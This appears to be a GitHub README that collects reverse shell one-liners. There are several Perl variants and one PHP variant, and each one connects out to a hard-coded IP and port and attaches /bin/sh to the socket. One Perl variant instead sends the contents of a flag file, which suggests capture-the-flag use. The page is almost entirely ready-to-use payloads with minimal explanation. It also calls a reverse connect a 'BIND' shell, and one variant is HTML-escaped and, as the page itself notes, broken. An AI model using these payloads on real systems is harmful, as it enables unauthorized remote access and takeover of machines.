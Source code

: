 # ReverseShellScript (Not mine script)
Reverse Shell script : PERL , PHP , PYTHON
___
## PERL
ReverseShell.pl
```&gt;&amp;S``` is an encoded format that does not work in Perl or shell. (Its output will be sent out in HTML tags.)
```perl
perl -e 'use Socket;$i="10.8.0.99";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'
```

ReverseShell2.pl
```>&S``` is the correct command to redirect data to socket ```S```.
```perl
perl -e 'use Socket;$i="10.8.0.99";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

ReverseShell3.pl
for BIND ReverseShell ;)
```perl
perl -e 'use Socket;$i="10.8.0.99";$p=1337;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))) {
    select(S); $|=1;
    print S "=== Connected ===\n";
    open(STDIN, ">&S"); open(STDOUT, ">&S"); open(STDERR, ">&S");
    system("cat /home/flag.txt");
};'
```
## PHP
ReverseShell.php

https://github.com/Sho2007/ReverseShellScript/blob/main/ReverseShell.php

ReverseShell2.php
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
